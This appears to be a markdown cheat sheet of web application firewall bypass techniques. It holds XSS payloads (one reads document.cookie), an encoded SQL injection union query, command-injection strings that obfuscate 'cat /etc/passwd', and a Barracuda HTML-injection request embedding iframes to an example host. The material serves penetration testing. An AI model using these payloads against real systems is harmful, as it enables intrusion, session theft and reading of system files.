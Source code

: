 # Bypass checklist

## Generic checklist

- [ ]  Base64 encoding our payload (/?q=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=_)
- [ ]  ASPX removes % not followed by two hex characters (https://site.com/index.php?%file=cat /etc/paswd)
- [ ]  We can use spaces to fool a WAF (<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">)
- [ ]  Backslashes in filtered words (https://site.com/index.php?file=cat /etc/pa\swd)
- [ ]  Quotes and * https://site.com/index.php?file=cat /etc/pa*swd
https://site.com/index.php?file=cat /etc/pa**swd
https://site.com/index.php?file=cat /etc/pa's'wd
https://site.com/index.php?file=cat /etc/pa"s"wd
- [ ]  Wildcards (https://site.com/index.php?file=cat /e??/p????)
- [ ]  Replace spaces with / (<svg/onload>)
- [ ]  Custom tags ([https://acd91f8b1e2bae3781d35fe600c30081.web-security-academy.net/?search=<CUSTOM+id%3Dx+onfocus%3Dalert(document.cookie) tabindex=1>#x](https://acd91f8b1e2bae3781d35fe600c30081.web-security-academy.net/?search=%3CCUSTOM+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x) )
- [ ]  Using different language chars
– e.g. ē instead of e

## Airlock Ergon

```php
%C0%80'+union+select+col1,col2,col3+from+table+--+
```

Every space here is replaced by a + and we have the %C0 and %80 url encoded values at the beginning of our attack vector.by [@Sec Consult](https://www.exploit-db.com/?author=1614)

## Barracuda

```php
<body style="height:1000px" onwheel="alert(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
```

A smart bypass making use of several tricks. The first line will use the onwheel event handler which is not filtered in Barracuda. We also have a very smart use of the url encoded characters on the third line. Great discoveries by [@WAFNinja](https://waf.ninja/)

```php
GET /cgi-mod/index.cgi?&primary_tab=ADVANCED&secondary_tab=test_backup_server&content_only=1&&&backup_port=21&&backup_username=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_type=ftp&&backup_life=5&&backup_server=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_path=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_password=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net%20width%3D800%20height%3D800%3E&&user=guest&&password=121c34d4e85dfe6758f31ce2d7b763e7&&et=1261217792&&locale=en_US
Host: favoritewaf.com
User-Agent: Mozilla/5.0 (compatible; MSIE5.01; Windows NT)
```

We can see several smart tricks being used here by [@Global-Evolution](https://www.exploit-db.com/?author=2016) to achieve HTMLi

```php
<a href=j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At:open()>clickhere
```

And finally this amazing hacker makes smart use of the urlencoded value %0A which they place between every character of javascript. %0A translates to a linefeed. 

And many more over at [https://github.com/0xInfection/Awesome-WAF#known-bypasses](https://github.com/0xInfection/Awesome-WAF#known-bypasses)
